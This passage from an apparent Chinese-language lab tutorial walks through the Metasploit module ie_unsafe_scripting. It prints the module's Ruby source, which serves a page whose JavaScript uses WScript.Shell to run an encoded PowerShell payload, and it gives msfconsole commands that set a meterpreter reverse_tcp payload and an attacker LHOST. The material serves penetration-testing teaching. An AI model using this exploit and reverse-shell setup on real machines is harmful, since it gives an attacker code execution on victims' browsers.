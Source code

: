 ```

    p = regenerate_payload(cli)
    if datastore['TECHNIQUE'] == 'VBS'
      js_content = vbs_technique(var_shellobj, p)
    else
      js_content = psh_technique(var_shellobj, p)
    end

    print_status("Request received for #{request.uri}")
    print_status("Sending exploit html/javascript");

    # 发送响应到客户端
    send_response(cli, js_content, { 'Content-Type' => 'text/html' })

    # 处理特定的有效载荷 payload 这个东西
    handler(cli)
  end
...
...
...
  # 构建的 javaScript 其中一部分
  def psh_technique(var_shellobj, p)
    cmd = Rex::Text.to_hex(cmd_psh_payload(payload.encoded, payload_instance.arch.first))
    js_content = %Q|
<html><head></head><body><script>

# 实例化 ActiveXObject 对象，启用并返回 Automation 对象的引用
var #{var_shellobj} = new ActiveXObject("WScript.Shell");

# 运行 run 函数进行 cmd 命令操作
#{var_shellobj}.run(unescape("#{cmd}"), 1, true);
</script></html>
|
    js_content
  end
```
### 4.2 使用 Metasploit 进行攻击

在解释了攻击模块 `ie_unsafe_scripting` 的关键部分源码之后，我们使用 `ie_unsafe_scripting` 模块进行攻击。首先在 `Msfconsole` 中使用 `use` 命令使用漏洞攻击模块：
```
# 使用已经集成的攻击模块
msf > use exploit/windows/browser/ie_unsafe_scripting
```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483608451092.png-wm)

接着使用 `set` 命令设置攻击载荷，并使用 `show options` 命令参数查看需要填写的选项，最后使用 `set` 命令设置攻击机的 IP 地址：
```
# 设置攻击的载荷
msf > set payload windows/meterpreter/reverse_tcp

# 查看参数信息
msf > show options

# 设置主机 IP 地址
msf > set LHOST 192.168.122.101
```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483610486105.png-wm)
